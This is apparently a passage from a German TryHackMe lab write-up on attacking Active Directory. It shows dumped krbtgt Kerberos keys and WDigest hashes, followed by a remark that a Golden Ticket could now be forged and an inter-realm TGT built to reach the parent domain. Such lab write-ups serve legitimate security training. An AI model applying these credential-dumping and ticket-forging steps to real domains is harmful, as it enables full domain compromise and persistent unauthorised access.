 ```
* Primary:Kerberos-Newer-Keys *
    Default Salt : ZA.TRYHACKME.LOCkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 9b52d4ffae227e50025574e4347783ee4f4f6c01c110b1ad4c715d0c977558ca
      aes128_hmac       (4096) : c893fd72ddf7fe2ee545f52b8368602f
      des_cbc_md5       (4096) : d904d37f8ab6fed6

* Primary:Kerberos *
    Default Salt : ZA.TRYHACKME.LOCkrbtgt
    Credentials
      des_cbc_md5       : d904d37f8ab6fed6

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  59ef8461b2d3808973106d3eae741ca6
    02  e7e04d83662aa1f0e23058bf822db70c
    03  738f9c03bbcfe61e0cc1f617a56ee1ca
    04  59ef8461b2d3808973106d3eae741ca6
    05  e7e04d83662aa1f0e23058bf822db70c
    06  cf5bf42182aaaa694a6ca51ab2346e97
    07  59ef8461b2d3808973106d3eae741ca6
    08  7943328089ebb9cd6856cb93e1c8e5eb
    09  7943328089ebb9cd6856cb93e1c8e5eb
    10  703d09859f5291a805f35efce9b2de4d
    11  7ec84ffce154f8c3576c5ccfe270e306
    12  7943328089ebb9cd6856cb93e1c8e5eb
    13  09fcdbe4d28a7e845c4f7df0f5b942aa
    14  7ec84ffce154f8c3576c5ccfe270e306
    15  9f5d5af22548a18694bb8886e2f6a0eb
    16  9f5d5af22548a18694bb8886e2f6a0eb
    17  8d0eff223c176f71093f9d03f8a307df
    18  f5d27cfa462b19d062670445682aef8c
    19  3329d0412509cfe735c064d303dd05dc
    20  7b5fb40e95c2fb16b5b92843158e83af
    21  17a9bb9485f780cbe33945fc581532a2
    22  17a9bb9485f780cbe33945fc581532a2
    23  340490cea65bf6b5927cdf51444ef524
    24  14fbfe8a903667e4901113f484711a62
    25  14fbfe8a903667e4901113f484711a62
    26  f67574e138db44d188d1e11b1f92a9d5
    27  fd72b74747a58338ccfe1bd6d3527445
    28  f9b2e0e39df0a0cbeffa119c03a87b9b
    29  33a0a6986ba90410cbe8b5751a982393

```

Im Prinzip können wir uns jetzt schon ein Golden Ticket erstellen und jede Ressource in der Child Domain erreichen. Wir gehen aber noch weiter und erstellen uns ein Inter-Realm TGT
